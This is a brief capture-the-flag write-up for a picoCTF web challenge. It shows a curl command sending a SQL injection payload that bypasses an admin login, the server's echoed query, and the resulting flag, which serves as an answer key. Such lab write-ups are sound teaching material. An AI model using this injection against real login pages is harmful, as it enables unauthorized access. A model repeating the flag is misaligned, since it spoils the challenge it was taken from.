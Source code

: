 # Descripcion

There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!

# Pistas
Seems like the password is encrypted.

# Solucion
```
# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}

___________________________________________________________________________________

┌──(kali㉿kali)-[~]
└─$ curl -s https://jupiter.challenges.picoctf.org/problem/40742/login.php -d "password=' be 1=1;&debug=1"
<pre>password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}</p> 
```

# Bandera
picoCTF{3v3n_m0r3_SQL_4424e7af}

# Notas adicionales


# Referencias
https://www.youtube.com/watch?v=H29JbY_KEYU&list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&index=9